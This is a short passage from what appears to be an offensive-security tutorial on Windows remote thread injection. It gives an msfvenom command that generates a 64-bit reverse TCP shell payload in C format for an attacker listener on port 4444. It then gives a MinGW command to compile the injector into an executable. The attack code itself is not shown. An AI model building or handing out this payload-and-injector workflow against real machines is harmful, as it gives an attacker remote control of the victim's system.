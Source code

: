 # Process Injection: CreateRemoteThread or Remote Thread Injection
create your shellcode and insert it in code:
```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=4444 -b '\x00\x0a\x0d' -f c
```

compile it in kali using **MinGW**:
```sh
x86_64-w64-mingw32-gcc remote_thread_injection_1.c -o rti.exe
```
